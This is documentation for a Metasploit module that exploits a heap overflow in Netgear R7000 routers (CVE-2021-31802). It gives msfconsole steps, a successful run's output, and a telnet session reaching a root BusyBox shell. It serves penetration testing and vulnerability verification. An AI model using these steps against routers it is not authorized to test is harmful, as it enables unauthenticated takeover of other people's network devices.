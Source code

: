 ## Introduction
This module exploits an heap buffer overflow in the `genie.cgi?backup.cgi`
page of Netgear R7000 routers running firmware versions `1.0.11.116` and prior.
Successful exploitation results in unauthenticated attackers gaining
code execution as the `root` user.

The exploit utilizes these privileges to enable the telnet server
which allows attackers to connect to the target and execute commands
as the `admin` user from within a BusyBox shell. Users can connect to
this telnet server by running the command `telnet *target IP*`.


## Vulnerable Application

Netgear R7000 routers running firmware version `1.0.11.116` and earlier.

## Verification Steps

  1. Start msfconsole
  2. Do: `use auxiliary/admin/http/netgear_r7000_backup_cgi_heap_overflow_rce `
  3. Do: `set RHOSTS <RouterIP>`
  5. Do: `exploit`
  6. Wait for the message about how to connect to the telnet shell to appear.
  7. Connect to the telnet shell by executing `telnet <RouterIP>`
  8. Verify that you now have a BusyBox shell running as the `admin` user.

## Options

## Scenarios

### Netgear R7000 with Firmware Version 1.0.11.116
```
msf6 > use auxiliary/admin/http/netgear_r7000_backup_cgi_heap_overflow_rce
msf6 auxiliary(admin/http/netgear_r7000_backup_cgi_heap_overflow_rce) > set RHOSTS 192.168.1.1
RHOSTS => 192.168.1.1
msf6 auxiliary(admin/http/netgear_r7000_backup_cgi_heap_overflow_rce) > show options

Module options (auxiliary/admin/http/netgear_r7000_backup_cgi_heap_overflow_rce):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.1.1      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host

msf6 auxiliary(admin/http/netgear_r7000_backup_cgi_heap_overflow_rce) > run
[*] Running module against 192.168.1.1

[*] Executing automatic check (disable AutoCheck to override)
[*] Router is a NETGEAR router (R7000)
[+] The target is vulnerable.
[*] Sending 10th and final packet. The exploit should hang at this point.
[*] Connect to the telnet shell by running: telnet 192.168.1.1
[+] Exploit complete, connect to your shell!
[*] Auxiliary module execution completed
msf6 auxiliary(admin/http/netgear_r7000_backup_cgi_heap_overflow_rce) >
```

And in a separate terminal shell:

```
 ~/git/metasploit-framework │ CVE-2021-31802 !1  telnet 192.168.1.1                                                ✔ │ 2.7.2 Ruby
Trying 192.168.1.1...
telnet: Unable to connect to remote host: Connection refused
 ~/git/metasploit-framework │ CVE-2021-31802 !2  telnet 192.168.1.1                                              1 х │ 2.7.2 Ruby
Trying 192.168.1.1...
Connected to 192.168.1.1.
Escape character is '^]'.


BusyBox v1.7.2 (2020-12-21 13:01:11 CST) built-in shell (ash)
Enter 'help' for a list of built-in commands.

# uname -a
Linux R7000 2.6.36.4brcmarm+ #30 SMP PREEMPT Mon Dec 21 12:35:01 CST 2020 armv7l unknown
# id
uid=0(admin) gid=0(root)
#
```



